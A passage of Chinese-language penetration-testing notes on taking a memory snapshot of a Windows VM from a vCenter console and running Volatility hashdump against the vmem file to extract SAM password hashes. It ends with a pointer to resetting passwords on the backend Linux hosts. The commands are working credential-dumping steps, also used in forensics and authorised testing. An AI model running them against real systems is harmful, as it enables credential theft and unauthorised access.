 进后台，找 windows 主机，创建快照。

快照保存在相对应的数据库中，在相对应的数据库中下载 vmem 和 vmsn 这两个文件。

利用 volatility 查看 hash,可以参考笔记 [Volatility](../../../安全工具/Volatility.md#信息)
```
volatility_2.6_win64_standalone.exe -f server2008R2-Snapshot2.vmem imageinfo
volatility_2.6_win64_standalone.exe -f server2008R2-Snapshot2.vmem --profile=Win7SP1x64 hivelist
# -y 是 system
# -s 是 sam
volatility_2.6_win64_standalone.exe -f server2008R2-Snapshot2.vmem --profile=Win7SP1x64 hashdump -y 0xfffff8a000024010 -s 0xfffff8a000478010
```

### 获取 Vcenter 后台 linux 机器权限

**忘记密码**

参考 centos 忘记密码的还原方法
- [密码重置](../../../../Integrated/Linux/Secure-Linux.md#密码重置)
